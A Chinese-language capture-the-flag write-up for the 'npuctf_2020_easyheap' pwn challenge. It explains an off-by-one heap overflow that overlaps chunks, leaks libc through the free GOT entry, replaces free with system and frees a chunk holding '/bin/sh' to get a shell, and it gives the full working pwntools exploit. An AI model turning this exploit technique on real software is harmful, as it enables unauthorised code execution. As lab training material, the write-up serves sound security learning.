



# [npuctf_2020_easyheap](https://buuoj.cn/challenges#npuctf_2020_easyheap)



这里发现的是一个常见的heap题目



这里发现我们只能写入堆块的大小为24和56



这里是一个offbayone因此我们要溢出heap

我们可以直接泄露一个free的libc把free改成system

并且free掉前面一个堆块就可以把里面的值写入到rdi中使得system中的rdi参数可以的到

因此我们的exp：
```python
from LibcSearcher import LibcSearcher
from pwn import *
context.log_level='debug'
# from nss.UAF import addr_chunk

# io = remote()
io = process("/home/fofa/npuctf_2020_easyheap")
# io = remote("node5.buuoj.cn",27308)
elf = ELF("/home/fofa/npuctf_2020_easyheap")
def create_chunk(size,context):
    io.sendafter("Your choice :",b'1')
    io.sendafter("Size of Heap(0x10 or 0x20 only) :",str(size))
    io.sendafter("Content:",context)

def show_chunk(idx):
    io.sendafter("Your choice :",b'3')
    io.sendafter("Index :",str(idx))
def edit_chunk(idx,context):
    io.sendafter("Your choice :",b'2')
    io.sendafter("Index :",str(idx))
    io.sendafter("Content:",context)
def delete_chunk(idx):
    io.sendafter("Your choice :",b'4')
    io.sendafter("Index :",str(idx))

create_chunk(0x18,'aaaa')#0
create_chunk(0x18,'bbbb')#1
# create_chunk(0x18,'cccc')#2

payload = b'/bin/sh\x00'+p64(0)*2+p64(0x41)
edit_chunk(0,payload)

delete_chunk(1)
# gdb.attach(io)
payload = b'a'*0x20+p64(0x38)+p64(elf.got['free'])
create_chunk(0x38,payload)#1
#
show_chunk(1)
# gdb.attach(io)
# pause()
free_addr = u64(io.recv(26)[-6:].ljust(8,b'\x00'))
info(hex(free_addr))
libc = LibcSearcher('free',free_addr)
libc_base = free_addr-libc.dump('free')
info(hex(libc_base))
#
system = libc_base+libc.dump('system')
edit_chunk(1,p64(system))
gdb.attach(io)
# gdb.attach(io,'b free_hook\nc')
# pause()
delete_chunk(0)
# gdb.attach(io)
# pause()
io.interactive()
```

---

## 总结

这里的调试我主要是明白了一点

当我们前一个堆块free掉后堆块中fd的位置的参数会被放入的rdi中而system函数中的值是从rdi中调出来的因此我们得到了一个geshell的权限

